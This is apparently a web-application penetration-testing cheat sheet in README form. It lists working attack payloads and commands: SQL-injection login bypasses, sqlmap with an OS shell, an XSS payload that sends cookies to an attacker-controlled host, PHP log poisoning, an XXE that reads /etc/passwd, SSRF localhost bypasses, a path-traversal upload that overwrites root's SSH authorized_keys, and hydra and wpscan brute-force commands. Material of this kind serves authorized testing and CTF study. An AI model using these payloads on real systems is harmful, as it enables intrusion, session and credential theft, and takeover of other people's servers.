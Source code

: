 # Web-Applications

- [Web-Applications](#web-applications)
  - [Recon](#recon)
  - [SQL-Injection](#sql-injection)
  - [Server Side Template Injection](#server-side-template-injection)
  - [File Inclusion / Path traversal](#file-inclusion--path-traversal)
    - [PHP Backend](#php-backend)
  - [File Upload](#file-upload)
    - [Filters](#filters)
    - [Zip File Upload](#zip-file-upload)
  - [Server Side Request Forgery](#server-side-request-forgery)
    - [Localhost Bypass](#localhost-bypass)
    - [Protocols](#protocols)
  - [Regex Bypass](#regex-bypass)
  - [NoSQL-Injection](#nosql-injection)
  - [XML External Entities](#xml-external-entities)
  - [Wordpress](#wordpress)
  - [Brute Force Login](#brute-force-login)

## Recon

- web directories and subdomains
```
gobuster dir -u http://<target-ip> -w <wordlist> -x php,html
gobuster vhost -u http://<target-ip> -w <wordlist> --append-domain
```
- ``/robots.txt`` and ``/sitemap.xml``
- view source ``CTRL+U``
- view storage/cookies
- response headers
- 404 error page
- ``Wappalyzer`` (Browser Plugin): technologies used by a website
- ``nikto -h <url>``: web application vulnerabilities
- ``/.git/`` $\Rightarrow$ [git-dumper](https://github.com/arthaud/git-dumper)

## SQL-Injection

- authentication bypass
  ```
	' or 1=1 #
	' or '1'='1' #
	" or 1=1 --
	```
- sqlmap
  ```
  sqlmap -u "http://<target-ip>" --forms
  sqlmap -r request.txt --level 5 --risk 3 --batch
  sqlmap -u "http://<target-ip>" --os-shell
  ```

## Cross-Site-Scripting
    
```html
<script>alert("XSS")</script>
<img src=x onerror=this.src="http://<lhost>:<lport>/?cookie="+document.cookie>
```

## Server Side Template Injection

- input is reflected in response
- ``{{7*7}}`` $\Rightarrow$ 49?
- FUZZ string: ``${{<%[%'"}}%\.``
- [Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md)

## File Inclusion / Path traversal

- example: ``http://example.com/index.php?page=home.html``
- interesting files:
  - ``/etc/passwd``: users and home directories
  - ``/etc/apache2/sites-enabled/000-default.conf``: default Apache configuration
  - ``/proc/self/cmdline``, ``/proc/self/environ``, ``/proc/self/status``
  - ssh keys
  - web-app files e.g. ``.htaccess`` and ``config.php`` 

### PHP Backend
- Wrappers
  - ``php://filter/convert.base64-encode/resource=index.php``
  - ``expect://id``
  - ``phar://exploit.zip/shell``: upload phar/zip archive and execute PHP file in the archive
  - [PHP filter chain](https://github.com/synacktiv/php_filter_chain_generator)
- Log Poisoning
  - Send request with PHP shell in the User-Agent and include the log file
  - ```
    /var/log/apache2/access.log
    /var/log/apache/access.log
    /var/log/apache2/error.log
    /var/log/apache/error.log
    /var/log/nginx/access.log
    /var/log/nginx/error.log
    ```

## File Upload

### Filters
- file extension
	- upload file with allowed extension and rename the file
  - double extension e.g. ``shell.php.jpg``
  - null byte: ``shell.php%00.jpg``
	- blacklist $\Rightarrow$ try alternative extensions
  	- PHP: phtml, pht, php3, php4, ...
  	- ASP: asp, aspx
- Content-Type Header
	- change header to allowed type
- magic bytes
	- change magic bytes in hex editor
	- [List of file signatures](https://en.wikipedia.org/wiki/List_of_file_signatures)

### Zip File Upload
- upload zip file with symlinks $\Rightarrow$ file read
- write files with path traversal through file names e.g. file with name ``../../../../../root/.ssh/authorized_keys``
- zip file upload + LFI + PHP backend $\Rightarrow$ phar injection

## Server Side Request Forgery

- try to access internal websites or resources
- fuzz for internal open ports

### Localhost Bypass

```
http://localhost:80/
http://127.0.0.1:80/
http://127.0.1:80/
http://127.1:80/
http://127.000000000000000.1:80/
http://0:80/
http:@0:80/
http://[::]:80/
http://[0000::1]:80/
http://[::ffff:127.0.0.1]:80/
http://[0:0:0:0:0:ffff:127.0.0.1]:80/
```

### Protocols

- ``file://``: read local file
- ``http://``: perform http request
- ``dict://``: access word lists
- ``sftp://``: connect to sftp server

## Regex Bypass

Regex only checks first line $\Rightarrow$ put malicious payload in the second line
```
abc%0d%0a<script>alert("xss")</script>
abc%0d%0a{{7*7}}
```

## NoSQL-Injection

```
admin' || '1'=='1

username[$ne]=foo&password[$ne]=foo
{"username": {"$ne": "foo"}, "password": {"$ne": "foo"} }
```

## XML External Entities

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE xxe [ <!ENTITY passwd SYSTEM 'file:///etc/passwd'> ]>
<entry>&passwd;</entry>
```

## Wordpress

```
wpscan --url <url> -e u,t,p
wpscan --url <url> -U <users> -P <passwords> -t 50
```
- RCE: add PHP shell to theme

## Brute Force Login

```
hydra -L <users> -P <passwords> <target-ip> http-post-form "<path>:username=^USER^&password=^PASS^:<failure-string>"
```

